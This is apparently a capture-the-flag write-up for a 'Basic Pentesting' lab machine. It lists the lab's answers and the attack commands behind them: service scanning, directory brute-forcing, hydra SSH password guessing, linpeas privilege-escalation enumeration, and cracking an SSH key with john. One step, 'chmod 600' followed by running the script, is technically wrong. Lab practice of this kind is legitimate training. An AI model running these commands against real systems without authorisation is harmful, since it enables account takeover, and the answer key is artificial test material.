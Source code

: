 # Basic Pentesting

## [Task 1] Web App Testing and Privilege Escalation
1. Deploy the machine and connect to our network
2. Find the services exposed by the machine
    - `nmap -sV BOX_IP`
    - 22, 80, 139, 445, 8009, 8080
3. What is the name of the hidden directory on the web server (enter name without /)?
    - `gobuster dir -e -u http://BOX_IP -w common.txt`
    - development
4. User brute-forcing to find the username & password
    - `enum4linux -a BOX_IP`
    - `hydra -l jan -P rockyou.txt ssh://BOX_IP`
5. What is the username?
    - jan
6. What is the password?
    - armando
7. What service do you use to access the server (answer in abbreviation in all caps)?
    - ssh
8. Enumerate the machine to find any vectors for privilege escalation
    - `scp linpeas.sh jan@BOX_IP:/dev/shm`
    - `ssh jan@BOX_IP`
    - `chmod 600 linpeas.sh`
    - `./linpeas.sh`
9. What is the name of the other user you found (all lower case)?
    - kay
10. If you have found another user, what can you do with this information?
    - inspect directories and files related to user
11. What is the final password you obtain?
    - `ssh2john.py id_rsa > id_rsa.txt`
    - `john id_rsa.txt --wordlist=rockyou.txt`
    - `ssh -i id_rsa kay@BOX_IP`
    - `cat pass.bak`
    - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
